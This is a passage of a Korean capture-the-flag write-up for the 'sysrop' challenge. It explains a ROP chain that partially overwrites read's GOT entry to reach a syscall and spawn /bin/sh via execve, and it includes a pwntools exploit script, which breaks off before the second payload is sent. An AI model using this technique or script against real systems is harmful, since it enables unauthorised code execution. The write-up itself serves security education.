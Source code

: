                 ret(0x4005EB) + 0x1(rdx에 들어갈 size) + read_got + 0x0(fd) + ...

        - 위 페이로드를 보낸뒤, "\x5e"를 보내면 read_got의 한바이트가 덮혀짐
        - 그다음 이제는 다시 메인으로 돌아갈 필요없이 RTL chain을 걸면 됨
        - 이제부터 execve를 호출하기 위한 인자를 "..." 이부분에 연결하면 끝
        - (rax, rdx, rdi, rsi 레지스터를 이용해야하기 때문에 원래의 가젯을 이용)

        - **readl payload**

                ret(0x4005EB) + 0x1+ read_got + 0x0 + 0x4005EA(pppr_gadget) + 
                
                59(rax에 들어갈 값) + NULL(rdx)+  0x601940(rdi에 들어가 bss 주소) + NULL(rsi)
<br><br><br><br><br>
### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3024)
#env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
#p=process("./sysrop",env=env,aslr=False)
e=ELF("./sysrop")

#gdb.attach(p)


#need data
bss_addr=p64(0x601040+0x900)
ppr=p64(0x04005EB) # pop rdx; pop rdi; pop rsi; ret;
pppr=p64(0x4005EA) # pop rax; pop rdx; pop rdi; pop rsi; ret;
binbash="/bin/sh\x00"
main_addr=p64(0x4005F2)
read_got=p64(e.got['read'])
read_plt=p64(e.plt['read'])


#insert .bss /bin/sh 
payload = "A"*0x18
payload += ppr
payload += p64(8)
payload += p64(0)
payload += bss_addr
payload += read_plt
payload += main_addr

p.sendline(payload)
pause()
sleep(1)
p.send(binbash)
pause()
sleep(1)

payload2 = "A"*0x18
payload2 += ppr
payload2 += p64(1)
payload2 += p64(0)
payload2 += read_got
payload2 += read_plt
payload2 += pppr
payload2 += p64(59)
payload2 += p64(0x00)
payload2 += bss_addr
payload2 += p64(0x00)
```